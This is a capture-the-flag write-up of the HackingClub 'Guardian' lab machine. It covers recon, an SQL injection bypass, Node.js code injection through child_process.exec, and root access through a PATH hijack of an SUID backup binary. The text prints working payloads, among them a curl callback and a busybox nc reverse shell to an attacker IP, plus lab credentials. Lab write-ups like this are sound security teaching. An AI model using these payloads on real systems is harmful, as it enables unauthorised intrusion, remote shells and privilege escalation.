


[HackingClub] Guardian Writeup
| Platform: | HackingClub |
| Machine: | Guardian |
| Category: | Web Exploitation |
| OS: | Linux |
| Difficulty: | Easy |
## Recon
At the beginning, I used nmap with the following parameters to scan the target.
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 172.16.7.194 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 22:46 -03
Nmap scan report for 172.16.7.194
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 e9:d3:ea:ff:b8:2f:a6:39:f8:af:75:1d:ca:b5:aa:59 (ECDSA)
|_ 256 2e:2d:59:6e:f9:5b:83:ea:5b:ff:31:c5:0c:33:20:6e (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe scan revealed only ports 22 (SSH) and 80 (HTTP) as open. Below, we can see that there is a redirect to the /login page, indicating that authentication is required. Additionally, the application is using Express.js as its web framework, which suggests that it is built with Node.js.
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $curl -I 172.16.7.194
HTTP/1.1 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Thu, 27 Feb 2025 01:45:42 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3ARXUeGLySkK468RfGVU4pe8Y1Is1B8Wgg.b23S0dXS0oZ7kV9WD5ix4UWkZaeImFr2krPARKPep6Y; Path=/; HttpOnlyFirst, I performed fuzzing on the web application using ffuf to discover hidden directories and files:
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100
images [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 166ms]
js [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 219ms]
logout [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 282ms]
login [Status: 200, Size: 2707, Words: 661, Lines: 52, Duration: 280ms]
customers [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 187ms]
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/js/FUZZ -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt -t 100
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://172.16.7.194/js/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 100
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
login.js [Status: 200, Size: 967, Words: 219, Lines: 36, Duration: 182ms]
utils.js [Status: 200, Size: 1817, Words: 575, Lines: 68, Duration: 184ms]
register.js [Status: 200, Size: 1535, Words: 400, Lines: 47, Duration: 221ms]
:: Progress: [3550/3550] :: Job [1/1] :: 515 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
The discovered directories and JavaScript files provide valuable insights into the application's structure. By analyzing the JavaScript files, we identified the following API endpoints:
images/
login/
logout/
customers/
js/
js/login.js
js/utils.js
js/register.js
POST to /api/auth/login
POST to /api/auth/first-access/register
GET to /api/auth/verify
POST to /api/rest/executeAdditionally, while interacting with the web application, we observed another endpoint: POST to /api/auth/first-access.
## Exploitation
The analysis of utils.js reveals two functions, getCompany() and getCustomers(), which send POST requests to /api/rest/execute with a JSON payload.
JSON.stringify({action: `db.getClients('${user.EIN}')`})This suggests that the application dynamically executes queries based on user input, which could potentially lead to Remote Code Execution (RCE). However, to explore this endpoint, a valid authentication token (cookie) is required.
In the /first-access registration process, there is an Employer Identification Number (EIN) input field. When a request is made to verify the EIN, the application sends a request to: POST /api/auth/first-access. We can test
sending just only quote to test the app.

By testing the payload: ' or 1=1# we successfully bypassed the EIN verification and obtained a list of valid EINs. This confirms that the application is vulnerable to SQL Injection.
To register using the obtained EIN (56-7890123), we need to send a POST request to /api/auth/first-access/register with the required parameters.
Now that we have registered an account, we need to log in to obtain an authentication token.

Now that we have obtained a JWT, we can add Authorization: Bearer TOKEN in our request header.
Since the vulnerability in utils.js seems to be exploitable, let's craft and test Remote Code Execution (RCE) payloads for Node.js.
Using the following payload:
{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('curl 10.0.10.235:4444')"}Great! Now that we have confirmed Remote Code Execution (RCE), you can use the following payload to execute system commands:
{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('busybox nc 10.0.10.235 4444 -e sh')"}## Post Exploitation
Inside /opt we have a binary file. Since the binary inside /opt has the SUID bit set, it runs with elevated privileges. If we can analyze and exploit it, we may escalate privileges to root.
With Ghidra, we can see the following information:
Main function - check credentials and call a binary named mysqldump.
Verify Credentials functions - give to us a login and password.
So our path to get a privilege escalation it's make a Path Hijacking with mysqldump binary and login. Inside /opt directory:
echo 'chmod u+s /bin/bash' > /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*